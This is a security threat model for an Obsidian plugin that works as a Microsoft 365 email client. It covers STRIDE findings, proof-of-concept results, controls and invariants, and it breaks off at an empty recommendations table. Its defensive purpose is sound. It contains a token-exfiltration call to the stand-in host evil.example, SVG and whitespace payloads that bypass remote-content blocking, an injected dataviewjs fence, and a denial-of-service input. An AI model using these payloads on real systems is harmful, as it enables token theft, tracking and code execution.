

# Threat model: Obsidian Email

| | |
|---|---|
| **Method** | STRIDE, applied per component and per trust boundary, plus an active threat hunt (code review and proof-of-concept testing) |
| **Version reviewed** | 0.12.11. Full analysis and all `file:line` citations are against 0.12.5 (commit `3e3643c`); `src/`, `styles.css` and the workflows are unchanged since, so the citations still hold |
| **Last updated** | 2026-10-25 |
| **Status** | Living document. Update it in the same PR as any change listed in [§1.2](#12-when-you-must-update-this-document) |

---

## 1. How to use this document

### 1.1 Purpose

This plugin is a full Microsoft 365 mail client that runs **inside Obsidian's
privileged desktop renderer**. It holds a long-lived OAuth refresh token with
`Mail.ReadWrite`, `Mail.Send` and `Contacts.ReadWrite`, and it renders HTML
written by strangers. A defect in it exposes the user's whole mailbox, the
ability to send mail as them, and (through the renderer) code execution on their
machine.

Use this document to:

- see what we protect, from whom, and which controls we rely on;
- check a proposed architectural change against the **security invariants** in
  [§7](#7-security-invariants-regression-guards);
- pick up the prioritized backlog in [§8](#8-recommendations-prioritized-backlog).

### 1.2 When you must update this document

Re-read §3 to §7 and update this file **in the same PR** if the change does any of
the following:

| Change | Why it matters |
|---|---|
| Adds or changes an HTML/DOM sink (`innerHTML`, `srcdoc`, `dangerouslyPasteHTML`, `{@html}`, an iframe or webview) or touches `src/render/html-sanitizer.ts` | The sanitizer is the only barrier between attacker HTML and a privileged renderer (E-1) |
| Adds a network endpoint, provider, OAuth scope or token type | New trust boundary and a larger blast radius for token theft (T-1, E-2) |
| Adds or changes anything persisted (IndexedDB, `data.json`, `localStorage`, vault files, secrets) | Confidentiality at rest (I-1, I-2, I-4) |
| Adds a way to open, launch or write something outside the plugin (`shell`, `window.open`, file writes, clipboard, protocol handlers) | Privilege escalation sinks (I-6, T-6) |
| Adds a CI workflow, release step, GitHub Action or dependency (especially one with install scripts or native code) | Supply chain (T-8) |
| Adds a new way for remote content to be fetched (images, fonts, iframes, link previews, prefetch) | Privacy guarantee (T-3) |
| Relaxes or replaces an existing control in [§6](#6-existing-controls-inventory) | Controls are load-bearing |

In the PR description, add one line: `Threat model: no impact` or `Threat model: updated (IDs)`.

### 1.3 Rating scale

**Risk** combines likelihood and impact.

| Rating | Meaning |
|---|---|
| **Critical** | Remote, unauthenticated code execution or mailbox takeover with realistic likelihood |
| **High** | Serious impact with plausible likelihood, or critical impact that needs one more flaw to be reachable |
| **Medium** | Real impact needing a precondition (local access, a user action, a third-party plugin), or a broken stated guarantee |
| **Low** | Minor impact, hard to reach, or defence-in-depth gaps |

**Status** values: **Confirmed**: reproduced with a working proof of concept (PoC).
**Reasoned**: found in code review, not exercised. **Mitigated**: a control exists and
was checked. **Accepted**: inherited from the platform or a deliberate trade-off.
**Disproved**: a hypothesis we tested that did not hold (kept so nobody re-chases it).

---

## 2. System overview

### 2.1 What the plugin does

- Signs in to Microsoft 365 with the OAuth 2.0 authorization-code flow (PKCE, S256)
  and an `obsidian://obsidian-email-auth` protocol redirect (no local port is opened), using a **Client ID the user supplies**
  (`src/auth/*`).
- Calls Microsoft Graph (`https://graph.microsoft.com/v1.0`) to list, read, send,
  move and delete mail and to sync contacts (`src/providers/ms-graph/*`).
- Mirrors mail into a local IndexedDB cache (`src/cache/*`) and syncs by delta
  link (`src/sync/*`).
- Renders message HTML in the reading pane after sanitizing it
  (`src/render/*`), and composes mail with Quill (`src/view/components/Composer.svelte`).
- Saves attachments and emails into the vault, and attaches or composes from vault
  notes (`src/host/vault-io.ts`, `src/render/email-to-note.ts`, `src/view/note-to-html.ts`).

Desktop only (`isDesktopOnly: true`). The code runs in Obsidian's Electron
renderer, which has Node/Electron access (the plugin itself calls
`require("electron")` in `src/main.ts:44`). **Any script execution in this renderer
is full code execution on the user's machine.**

### 2.2 Assets

| ID | Asset | Why it matters |
|---|---|---|
| A1 | OAuth refresh token (SecretStorage) | Long-lived; mints access tokens until revoked |
| A2 | Access token (memory, about 1 h) | Direct mailbox and send access |
| A3 | Mailbox content: cached summaries, bodies, headers, attachments | Highly sensitive personal and corporate data |
| A4 | Contacts (including `personalNotes`) | PII |
| A5 | Ability to send, delete and move mail as the user | Fraud, destruction, phishing from a trusted sender |
| A6 | Vault contents | Unrelated private notes; also written to by this plugin |
| A7 | The user's privacy (IP, "opened at", online status) | Defeated by remote-content tracking |
| A8 | Integrity of the Obsidian host process | Code execution on the user's machine |
| A9 | Integrity of released artifacts (`main.js`) | A malicious update reaches every user with A1 to A8 |

### 2.3 Adversaries

| ID | Adversary | Capability |
|---|---|---|
| X1 | **Email sender** | Anyone who can email the user. Controls HTML, headers, attachments (names, MIME types, sizes), contact names. No authentication needed |
| X2 | **Co-resident code** | Another Obsidian plugin or local malware under the same user. Same renderer, same origin storage |
| X3 | **Local process, web page or user** | Can open `obsidian://` links (a web page or local process can trigger the protocol handler); on a shared host, other accounts too |
| X4 | **Network attacker** | TLS-intercepting proxy, hostile Wi-Fi with a user-installed CA |
| X5 | **Compromised upstream** | A compromised npm package, GitHub Action, or Microsoft endpoint |
| X6 | **Phisher** | Socially engineers the user into configuring something (a Client ID, a link click) |
| X7 | **Device thief or forensic reader** | Reads the Obsidian profile and vault from disk |

### 2.4 Data flow and trust boundaries



| ID | Trust boundary | What crosses it |
|---|---|---|
| **TB-1** | Plugin and the Internet | Bearer-authenticated Graph traffic; **attacker-authored mail content arrives inside the trusted TLS channel** |
| **TB-2** | Plugin, system browser and the `obsidian://` protocol handler | OAuth authorization code; any web page or local process can open an `obsidian://obsidian-email-auth` link |
| **TB-3** | Plugin and the rest of the Obsidian process | Shared origin storage, shared Node privileges, other plugins |
| **TB-4** | Plugin and the vault filesystem | Notes, attachments, `data.json`; may be synced or published |
| **TB-5** | Untrusted HTML and the privileged DOM | The sanitizer is the single control on this boundary |
| **TB-6** | Source, CI and the user's installed `main.js` | Dependencies, workflow secrets, release artifacts |

### 2.5 Assumptions that need verification

These came from reading code and documentation, not from Obsidian's source. Confirm them
before relying on the conclusions that depend on them.

| ID | Assumption | Affects |
|---|---|---|
| AS-1 | `app.secretStorage` is app-wide, so any plugin that knows or guesses an ID can read it. The ID here is `obsidian-email-<accountId>-refresh`, and `accountId` is in `data.json` | I-1, E-3 |
| AS-2 | The README's claim that SecretStorage is "backed by the OS keychain" is accurate on every platform | I-1 |
| AS-3 | IndexedDB lives in the shared Obsidian origin: all plugins, and likely all vaults, share it; nothing deletes it when the plugin is uninstalled | I-2, T-5 |
| AS-4 | Obsidian's reading view fetches remote images referenced in a note | T-4 |
| AS-5 | Branch protection or required review applies to the default branch; the Release workflow publishes on any push that touches `manifest.json` | T-8, E-4 |
| AS-6 | Obsidian's Electron Chromium behaves like the Chromium used for the PoCs (153.0.8010.12). **Re-run the §9 PoCs against Obsidian's own build** | T-3 |

---

## 3. STRIDE overview

Which threats apply to which component. Details are in §4 (confirmed findings) and §5 (full register).

| Component | S | T | R | I | D | E |
|---|---|---|---|---|---|---|
| **C1** OAuth flow (`src/auth`) | S-1, S-2, S-5 | | | I-1 | D-2 | |
| **C2** Token and secret storage | | | R-2 | I-1 | | E-2, E-3 |
| **C3** Graph client and sync (`src/providers`, `src/sync`) | | **T-1**, T-2 | R-1 | | D-4 | E-2 |
| **C4** Local stores (IndexedDB, `data.json`, `localStorage`) | | T-5 | | I-2, I-4, I-5 | D-4 | E-3 |
| **C5** Render pipeline (`src/render`, reading pane, print) | S-3, S-4 | **T-3** | | I-3, I-6, I-7 | **D-1**, D-3 | **E-1** |
| **C6** Composer and outgoing mail | | T-7 | R-1 | | | |
| **C7** Vault I/O (attachments, save-to-note) | | **T-4**, T-6 | | I-4 | | T-4 |
| **C8** Host integration (other plugins, `shell`) | | | R-2 | I-6 | | E-3 |
| **C9** Build and release | | **T-8** | | | | E-4 |

---

## 4. Confirmed findings (threat hunt)

Each finding below was reproduced. PoC details are in [§9](#9-proof-of-concept-notes-and-method).

### T-1: Bearer token is sent to any URL the server, cache or UI supplies

| | |
|---|---|
| **Rating** | **Medium** (High impact, needs a precondition) |
| **STRIDE** | Tampering, leading to Information disclosure and Elevation |
| **Status** | **Confirmed** (PoC "E") |
| **Where** | `src/providers/ms-graph/graph-provider.ts:52` |

`request()` builds its URL with `url.startsWith("http") ? url : base + url` and
attaches `Authorization: Bearer <token>` with no origin check. URLs reach this
point from three places:

1. `@odata.nextLink` in Graph responses (the `pageToken` for paging);
2. `@odata.deltaLink` values **persisted in IndexedDB** and replayed on every sync
   (`syncSince`, `initialCursor`);
3. the `pageToken` argument passed in by the UI.

PoC: `listMessages("inbox", "https://evil.example/collect?x=1")` sends
`Authorization: Bearer SECRET_ACCESS_TOKEN` to `evil.example`. So does
`"httpx://not-even-http"`, since the check is a bare prefix match.

**Who can exploit it:** X2 (co-resident plugin or local malware) can rewrite a
stored `deltaLink` and the next sync leaks the token (see T-5). X4 can do the
same if TLS is intercepted. A compromised Graph endpoint can do it directly.
**Impact:** theft of a live access token (A2) with `Mail.ReadWrite`, `Mail.Send`
and `Contacts.ReadWrite`, valid for roughly an hour.

**Recommendation (R-1):** parse every outgoing URL with `new URL()`, require
`protocol === "https:"` and `origin === "https://graph.microsoft.com"` before
attaching credentials, and validate persisted cursors on load. Reject, don't rewrite.

### T-3: The "block remote content" guarantee can be bypassed

| | |
|---|---|
| **Rating** | **Medium** (broken stated privacy guarantee; any sender can trigger it) |
| **STRIDE** | Tampering (of the render) leading to Information disclosure |
| **Status** | **Confirmed in Chromium 153** (PoC "F") |
| **Where** | `src/render/html-sanitizer.ts` (`isRemote` `:58`, `SURVIVING_REMOTE` `:42`, `STYLE_ATTR_REMOTE` `:54`, `REMOTE_SRC_TAGS` `:16`) |

The README promises "Remote images are blocked by default" and the settings tab says
"remote images can track when mail is opened". With `autoLoadImages` off, these
payloads still caused an HTTP request to an attacker-controlled listener:

| Payload | Banner shown? | Request made? |
|---|---|---|
| `tp://host/p.png">` (tab inside the scheme) | **No** | **Yes** |
| `<svg><filter id=f><feImage href="http://host/p.png"/></filter><rect filter="url(#f)" …/></svg>` | **No** | **Yes** |
| `<feImage xlink:href="http://host/…">` | Yes (set afterwards) | **Yes** |
| `<svg><rect filter="url(http://host/x.svg#f)">` (also `mask=`, `marker-end=`) | Yes (set afterwards) | **Yes** |

Why it happens:

- **Whitespace inside the scheme.** `isRemote` tests the raw value, but DOMPurify
  validates a whitespace-stripped copy and keeps the original, and the browser's URL
  parser removes tabs and newlines. The value passes both checks and loads.
- **Per-tag allowlist.** The attribute hook only knows `img`, `image`, `use`,
  `video`, `audio`, `source`, `track`, `input`. `feImage` is allowed by DOMPurify
  and its `href` is never examined.
- **Flag-after-the-fact.** The backstop regexes (`SURVIVING_REMOTE`,
  `STYLE_ATTR_REMOTE`) set `blockedRemoteContent` but **do not remove** the
  reference, so the banner appears after the request has already fired.

**Impact:** open-tracking, IP and approximate location disclosure, confirmation that
the address is live (A7). Not code execution.

**Recommendation (R-2):** treat this as a class, not a list.

1. *Preferred:* render the body in a sandboxed `<iframe>` with a CSP of
   `default-src 'none'; img-src data: blob:` (and `https:` only when the user opts
   in). One browser-enforced control closes the whole class, including future ones, and
   also addresses E-1 and I-7.
2. *Minimum:* normalise values (strip ASCII whitespace and control characters) before
   `isRemote`; strip, rather than merely flag, every `url(...)`, `href` and
   `xlink:href` that is remote, for **all** elements; drop SVG presentation
   attributes that accept `url()` (`filter`, `mask`, `marker-*`, `clip-path`,
   `fill`, `stroke`, `cursor`) when blocking.

### T-4: "Save email to vault" re-introduces remote content and can plant executable code blocks

| | |
|---|---|
| **Rating** | **Medium** (depends on the user's other plugins) |
| **STRIDE** | Tampering, Elevation of privilege (via a third-party plugin) |
| **Status** | **Confirmed** (PoC "C": output observed; effect in Obsidian assumed, AS-4) |
| **Where** | `src/render/email-to-note.ts:26` (`allowRemote: true`) |

`emailToNote` sanitizes with `allowRemote: true`, then converts to Markdown with
Turndown. Observed output for an attacker email:

````markdown


```dataviewjs
dv.paragraph(app.vault.getName())
```
````

1. **Tracking pixel in the note.** The image becomes ``. Opening or
   previewing the note fetches it, even though the user kept remote images off.
2. **Attacker-chosen code-fence language.** DOMPurify keeps `class`, and Turndown
   turns `<code class="language-X">` into a fenced block tagged `X`. Plugins that
   execute fenced blocks (Dataview JS, and others, if the user enabled JS) will
   run attacker code with vault and Node access when the note is rendered.

Verified safe in the same output: `[[wikilinks]]`, `![[embeds]]` and backticks are
escaped by Turndown, and YAML frontmatter newlines and quotes are escaped (N-3, N-4).

**Recommendation (R-6):** sanitize with `allowRemote: false` for notes and convert
blocked images to plain links; strip `class` (or force the fence language to an
allowlist such as none, `text`, `html`) before Turndown.

### D-1: Quadratic-time scan of the raw body freezes the UI

| | |
|---|---|
| **Rating** | **Medium** (cheap remote DoS; no data loss) |
| **STRIDE** | Denial of service |
| **Status** | **Confirmed** (PoC "G", timings below) |
| **Where** | `src/render/html-sanitizer.ts:72` (`STYLE_BLOCK`), `:74` (`rawStyleHasRemote`) |

`/<style\b[^>]*>([\s\S]*?)(?:<\/style\s*>|$)/gi` runs over the **entire untrusted
body before sanitization**. With many `<style` and no closing `>`, each attempt scans
to the end of the input, so run time grows with the square of the input size.

| Input (`"<style"` repeated) | Size | Time |
|---|---|---|
| 5,000 | 30 KB | 0.17 s |
| 20,000 | 120 KB | 2.5 s |
| 40,000 | 240 KB | 9.1 s |
| 80,000 | 480 KB | 36 s |

`REMOTE_CSS_REF` shows the same shape on `style` attributes (240 KB: 6.7 s). The
scan runs synchronously on the renderer's main thread when the message is opened,
printed, or saved to a note, so **the whole of Obsidian freezes**, and
reopening the same message freezes it again.

**Recommendation (R-3):** replace the regex scan with a linear `indexOf` loop, cap the
body size handed to the sanitizer (and show "message too large to render safely"),
and add a performance regression test with a hostile input.

### D-2: A forged redirect link aborts sign-in

| | |
|---|---|
| **Rating** | **Low** |
| **STRIDE** | Denial of service |
| **Status** | **Partly mitigated** (stray links ignored since 0.14.x; forged code+state still aborts) |
| **Where** | `src/auth/redirect-receiver.ts` (`handle`) |

The OAuth redirect now arrives as an `obsidian://obsidian-email-auth` link handled
by `AuthRedirectReceiver.handle()`; no port is opened, so port scanners and
`/favicon.ico` requests (the original D-2 vector, from the old loopback server)
no longer apply. Links with neither `code` nor `error` are ignored. What remains:
while a sign-in is pending, any web page or local process can open
`obsidian://obsidian-email-auth?code=X&state=wrong`. The receiver settles on it, the
caller's state check (`add-account.ts:43`) rejects it, and the attempt aborts.
Likewise, starting a second sign-in supersedes (fails) a pending one by design.
PKCE plus the 128-bit state prevent code injection (S-2), so this is availability
only. A different app registering the `obsidian://` scheme could also receive the
real code, but cannot redeem it without the PKCE verifier.

**Recommendation (R-11, remaining):** pass the expected `state` into `waitForCode()`
and only settle on a matching `state` (ignore everything else until the timeout).

---

## 5. Full threat register

### 5.1 Spoofing

| ID | Threat | Rating | Status | Existing control and gap | Rec. |
|---|---|---|---|---|---|
| S-1 | **Rogue Client ID (illicit consent).** The user is socially engineered into pasting an attacker's Client ID. The consent grant then persists in the user's tenant. The Client ID is unvalidated (`settings-tab.ts` only checks non-empty) | Medium | Reasoned | Redirect is an `obsidian://` link and PKCE, so the attacker does not receive the code. Gap: no GUID validation, no guidance on checking the publisher | R-10 |
| S-2 | **OAuth redirect hijack or code injection** by a local process | Low | **Mitigated** | PKCE S256 (`pkce.ts`), 128-bit random `state` checked in `add-account.ts:43`. Residual DoS is D-2 | R-11 |
| S-3 | **Sender display-name spoofing.** The list and message header show `from.name \|\| from.email`; the address is visible only in the expanded details | Low | Reasoned | Expanded block shows `From: name <address>`. Gap: address hidden by default | R-15 |
| S-4 | **Look-alike UI inside a message** (fake dialog, input fields). `input`, `button`, `textarea` and `select` survive sanitization | Low | Partially mitigated | `form` is forbidden (nothing can submit), and `.obsidian-email-message-body { contain: content }` (`styles.css:91`) clips `position:fixed` overlays to the body box (by CSS semantics; not browser-tested). Links show their real URL in `title` | n/a |
| S-5 | **Re-authenticating as a different mailbox** keeps the same account id, so cached messages and delta links from mailbox A appear under mailbox B's address (`add-account.ts`, `plugin-context.ts` `reauthAccount`) | Low to Medium | Reasoned | None. Gap: no check that the returned profile email equals the stored one | R-9 |

### 5.2 Tampering

| ID | Threat | Rating | Status | Notes | Rec. |
|---|---|---|---|---|---|
| T-1 | Bearer token sent to attacker-controlled URL | Medium | **Confirmed** | §4 | R-1 |
| T-2 | **Unencoded IDs in URL paths.** `/me/messages/${id}`, `/me/mailFolders/${id}` and `pageToken` use raw strings. IDs come from the server or the cache; a tampered id such as `../../x` redirects an authenticated call to another path | Low | Reasoned | Same preconditions as T-1 | R-1 |
| T-3 | Remote-content blocker bypass | Medium | **Confirmed** | §4 | R-2 |
| T-4 | Saved note contains remote image and executable fence | Medium | **Confirmed** | §4 | R-6 |
| T-5 | **Local store tampering by co-resident code (X2).** IndexedDB (`obsidian-email`), `data.json` and `localStorage` are writable by anything in the Obsidian origin or by someone with vault access. Consequences: spoofed messages, replaced delta links (→ T-1), planted `accounts[]` entries (`settings-store.ts:62` takes `accounts` unvalidated), a changed `attachmentDir` | Medium | Reasoned | Cached bodies are re-sanitized on every render (good). Cursor and settings contents are trusted. Inherited platform limit (AS-3) | R-1, R-8 |
| T-6 | **Attachment filename traversal and overwrite** | Low | **Mitigated** | `safe-filename.ts` reduces to one inert segment, re-checks the joined path against the folder (`attachmentTargetPath`), never overwrites (`uniqueAttachmentPath`); unit-tested. Residual: executable types (`.exe`, `.html`, `.lnk`) are saved to the vault without a warning | n/a |
| T-7 | **Edit-draft pastes unsanitized server HTML into Quill** (`Composer.svelte:134` `dangerouslyPasteHTML`; the draft body comes from `getMessageBody` raw, `view-model.ts` `openDraft`). Quill converts through its Delta model, which narrows the risk. Quill 2.0.3 has advisory GHSA-v3m3-f69x-jf25 (HTML *export*; this code reads `root.innerHTML`, not `getSemanticHTML`, so not reachable today) | Low | Reasoned | Outgoing HTML is re-sanitized before send (`view-model.ts:740`, `:752`) | R-14 |
| T-8 | **Supply chain and release integrity.** `release.yml` (a) runs `npm ci` with lifecycle scripts after `actions/checkout` with default `persist-credentials` and `contents: write`, so a malicious dependency script can read the repo token from `.git/config`; (b) pins actions by mutable tag (`@v7`); (c) publishes unsigned, un-attested `main.js` on any push touching `manifest.json`; (d) interpolates `${{ steps.version.outputs.version }}` into shell. `ci.yml` has no `permissions:` block (inherits repo default). Dependency audit: see §5.8 | Medium | Reasoned (workflows reviewed; not exploited) | Dependabot is enabled for npm and Actions. No secrets other than `GITHUB_TOKEN` | R-7 |

### 5.3 Repudiation

| ID | Threat | Rating | Status | Notes |
|---|---|---|---|---|
| R-1 | No local record of mutating actions (send, delete, move, flag) | Low | Accepted | Microsoft 365's unified audit log records mailbox actions server-side; the plugin keeps no persistent log by design |
| R-2 | Actions from another plugin or malware in the same process cannot be told apart from the user's | Low | Accepted | Inherited platform property (E-3) |

### 5.4 Information disclosure

| ID | Threat | Rating | Status | Notes | Rec. |
|---|---|---|---|---|---|
| I-1 | **Refresh-token handling.** (a) AS-1/AS-2 unverified. (b) `TokenManager.clear()` (`token-manager.ts:75`) overwrites the secret with `""` and **swallows errors**, so a failure leaves the token behind silently. (c) Removing an account does **not** revoke the grant at Microsoft, and nothing tells the user to. (d) The token never lands in `data.json` or logs (verified) | Medium | Reasoned | Token is kept out of settings; access token is memory-only | R-13 |
| I-2 | **Plaintext mail cache at rest.** Summaries (90 days, 2,000 per mailbox), bodies (200 per account, 30 days), headers and delta links sit unencrypted in IndexedDB, readable by co-resident code (X2) and anyone with the profile on disk (X7). Not cleared on plugin uninstall or disable (AS-3). Cleared on account removal and "Clear local cache" | Medium | Reasoned | Retention limits in `cache/schema.ts` (`RETENTION`). Gap: no at-rest protection, no opt-out | R-8 |
| I-3 | Remote-content tracking | Medium | **Confirmed** | See T-3 | R-2 |
| I-4 | **Vault exposure.** `data.json` holds account emails and Client IDs; saved emails and attachments become vault files. If the vault is synced, committed or published, so is this data | Low | Accepted | User-initiated saves; document it | R-13 |
| I-5 | **Logging.** Only `err.message` is logged, never tokens or bodies; `debug` is off by default (`logger.ts`). `AuthError.cause` can carry the raw token-endpoint response but is never logged (checked all call sites) | Low | **Mitigated** | Keep it that way (invariant V-8) | n/a |
| I-6 | **`shell.openExternal(url)` has no scheme allowlist at the sink** (`main.ts:47`; also the "Open in default browser" menu item). Today the sanitizer's URI regex is the only filter. Tested: `file:`, `javascript:`, `smb:`, `ms-msdt:`, `search-ms:`, `vbscript:`, `ftp:` and `obsidian:` are all stripped. Still allowed through to the OS: `tel:`, `mailto:`, `cid:` and `data:image/…` | Low (High if the sanitizer is ever bypassed or a new code path feeds URLs) | **Mitigated** at the sanitizer; sink unguarded | Defence in depth is missing | R-4 |
| I-7 | **Print preview** (`print-html.ts:32`) puts sanitized HTML in an unsandboxed `srcdoc` iframe, which is same-origin with the app. Safe only as long as the sanitizer is | Low | Reasoned | Same sanitizer; `allowRemote` mirrors the reading pane | R-2 |

### 5.5 Denial of service

| ID | Threat | Rating | Status | Notes | Rec. |
|---|---|---|---|---|---|
| D-1 | Quadratic scan freezes the UI | Medium | **Confirmed** | §4 | R-3 |
| D-2 | Forged redirect link aborts sign-in | Low | **Partly mitigated** | §4 | R-11 |
| D-3 | **Inline `cid:` attachments are fetched and base64-decoded automatically** when a message renders (`message-renderer.ts:49`, `view-model.ts:251`, `graph-provider.ts` `getAttachment`) with no size check against `AttachmentMeta.size`. A huge inline "image" can exhaust renderer memory | Low to Medium | Reasoned | Fetch is by the user's own token and bounded by Graph's limits. Gap: no cap | R-12 |
| D-4 | Unbounded loops and growth | n/a | **Mitigated** | Paging capped (1,000 pages per delta walk, `MAX_CONTACT_PAGES`); `Retry-After` is clamped to `maxMs` (`backoff.ts`); cache sizes bounded by `RETENTION`; IndexedDB open has a timeout and a degraded mode |

### 5.6 Elevation of privilege

| ID | Threat | Rating | Status | Notes | Rec. |
|---|---|---|---|---|---|
| E-1 | **Script execution in the privileged renderer.** Attacker HTML is assigned with `container.innerHTML = html` (`message-renderer.ts:68`) in Obsidian's own document (no iframe, no CSP, no Trusted Types). A DOMPurify bypass or mutation-XSS is therefore code execution with Node access. The configuration is customised (`ALLOWED_URI_REGEXP`, two hooks, `ADD_ATTR: xlink:href`), which enlarges the surface beyond stock DOMPurify. `npm audit` reported DOMPurify ≤ 3.4.16 as **critical** (5 advisories: `IN_PLACE`, `SAFE_FOR_TEMPLATES`, XHTML-mode SMIL). We use none of those options, so none was reachable; 3.4.17 is now installed (0.12.6) and the production audit no longer reports it | High | Partially mitigated | DOMPurify, forbidden tags, `ALLOW_DATA_ATTR: false`, URI allowlist, `target`/`rel` hook, plain-text path escapes, body `contain: content`. Gap: single layer | R-2, R-5 |
| E-2 | **Broad OAuth scopes** (`Mail.ReadWrite`, `Mail.Send`, `Contacts.ReadWrite`, `offline_access`, `User.Read`): any token theft or renderer compromise can read, send and delete all mail | Medium | Accepted | Needed for features; scopes are minimal for them. Re-evaluate if features are dropped | n/a |
| E-3 | **Co-resident plugins share all privileges** (AS-1, AS-3): they can read secrets and the cache and call any API the plugin can | Medium | Accepted | Inherited from Obsidian's plugin model; document for users | R-13 |
| E-4 | **Malicious release.** Anything that lets an attacker alter `main.js` (T-8) lands with A1 to A8 on every installed copy | High (impact) | Reasoned | Depends on branch protection (AS-5) and CI hygiene | R-7 |


### 5.7 Hypotheses tested and disproved

Kept so nobody spends time re-chasing them. Revisit if the code in question changes.

| ID | Hypothesis | Result |
|---|---|---|
| N-1 | CSS escapes defeat the `url()` blocker (`u\72l(https://…)`, `url(\68ttps://…)`, `image-s\65t(…)`) | **Disproved in Chromium 153.** The payloads survive sanitization and the fail-closed backstop flags them, but **no request was made**. A positive-control `url(http://…)` did fetch, so the harness works. Keep the backstop |
| N-2 | A forged `data-blocked-*` attribute can be promoted into a live `src` | **Mitigated** by the `ownMarkers` WeakMap and re-validation in `restoreBlockedContent` (code review; covered by existing tests) |
| N-3 | YAML-frontmatter injection through sender or subject in saved notes | **Disproved.** `"`, `\`, `\n` are escaped; a lone `\r` stays inside the quoted scalar and cannot start a new key |
| N-4 | `[[wikilink]]`, `![[embed]]` or `` `= inline query` `` injection into saved notes | **Disproved.** Turndown escapes `[`, `]` and backticks (observed) |
| N-5 | Dangerous URL schemes reach `shell.openExternal` | **Disproved at the sanitizer** (§5.4 I-6); the sink itself is unguarded |
| N-6 | Oversized `Retry-After` can park sync indefinitely | **Disproved.** Clamped by `maxMs` |
| N-7 | Filename traversal or silent overwrite when saving attachments | **Disproved** (T-6) |

### 5.8 Dependency posture (`npm audit`, 2026-10-24)

| Package | Severity | Shipped in `main.js`? | Assessment |
|---|---|---|---|
| `dompurify` 3.4.17 (prod) | None (was Critical on 3.4.15) | Yes | Advisories concerned options we do not use (E-1). **Fixed in 0.12.6.** 3.4.17 also stopped running attribute hooks on elements it removes (see the 2026-10-25 review-log entry) |
| `quill` 2.0.3 (prod) | Low | Yes | `getSemanticHTML` is not used. No fixed release exists. Watch for one |
| `devalue` 5.9.4 (via `svelte`) | None (was High on ≤ 5.9.2) | **No** (0 matches in the bundle) | Build-time only; cleared in 0.12.11 |
| `moment` / `obsidian` (dev) | None (was Moderate) | No (type-only package) | Cleared in 0.12.9: `obsidian` 1.14.4 pulls `moment` 2.31.0 |

---

## 6. Existing controls inventory

Controls the design relies on. Removing or weakening one needs a threat-model update.

| Control | Location | Protects against |
|---|---|---|
| PKCE (S256, 256-bit verifier) and 128-bit `state`, verified before token exchange | `auth/pkce.ts`, `auth/add-account.ts:43` | S-2 |
| Fixed token and authorize endpoints (not user-controlled) | `auth/provider-oauth-config.ts` | Token endpoint spoofing |
| Refresh token only in SecretStorage; access token memory-only; in-flight refresh de-duplicated | `auth/token-manager.ts`, `host/secret-store.ts` | I-1 |
| DOMPurify with forbidden tags, URI allowlist, `ALLOW_DATA_ATTR: false` | `render/html-sanitizer.ts` | E-1 |
| Remote content blocked by default; markers re-validated; fail-closed backstop flag | `render/html-sanitizer.ts` | I-3 (partial, see T-3) |
| Link clicks intercepted; `target=_blank`, `rel=noopener noreferrer`; real URL in `title` | `render/html-sanitizer.ts`, `render/message-renderer.ts` | Phishing, tab-nabbing |
| Plain-text bodies HTML-escaped | `render/message-renderer.ts` (`escapeHtml`) | XSS |
| Outgoing HTML re-sanitized | `view/view-model.ts:740`, `:752` | Tampering |
| Attachment name hardening and no-overwrite | `util/safe-filename.ts`, `host/vault-io.ts` | T-6 |
| YAML scalar escaping for saved notes | `render/email-to-note.ts` | N-3 |
| CSS containment on the message body | `styles.css:91` | S-4 |
| Bounded paging, clamped retry, bounded cache, cache-open timeout | `providers`, `util/backoff.ts`, `cache` | D-4 |
| Settings sanitization for `pins`; `structuredClone` on read | `settings/settings-store.ts` | Corrupt data |
| Dependabot (npm and GitHub Actions), CodeQL (`Analyze` jobs) | `.github/dependabot.yml`, repo settings | T-8 |

---

## 7. Security invariants (regression guards)

Properties that must stay true. Items marked **VIOLATED** are open findings; the rest
should get tests (R-16).

| ID | Invariant | State |
|---|---|---|
| V-1 | No attacker-influenced string reaches a DOM sink except via `sanitizeEmailHtml` | Holds today |
| V-2 | Credentials are attached only to `https://graph.microsoft.com` (and the fixed Microsoft login hosts) | **VIOLATED** (T-1) |
| V-3 | With `autoLoadImages` off, rendering a message makes **zero** requests to third parties | **VIOLATED** (T-3) |
| V-4 | Sanitizing any input of *n* bytes takes time near-linear in *n* | **VIOLATED** (D-1) |
| V-5 | Only `http`, `https` and `mailto` are ever handed to the OS | Holds at the sanitizer, **not enforced at the sink** (I-6) |
| V-6 | Anything written to the vault from a message is built with remote content off and no executable fence language | **VIOLATED** (T-4) |
| V-7 | Filenames from the network become one inert path segment and never overwrite | Holds (tested) |
| V-8 | Tokens, message bodies and addresses never appear in logs or `Notice`s | Holds |
| V-9 | Every persisted cursor and ID is validated before use | **VIOLATED** (T-1, T-2, T-5) |
| V-10 | The release artifact is built only from reviewed, merged code, without secrets reachable by dependency scripts | Not guaranteed (T-8) |

---

## 8. Recommendations (prioritized backlog)

Effort: **S** about an hour or two, **M** about a day, **L** several days. Order is by
risk reduced per effort.

| # | Recommendation | Closes | Effort |
|---|---|---|---|
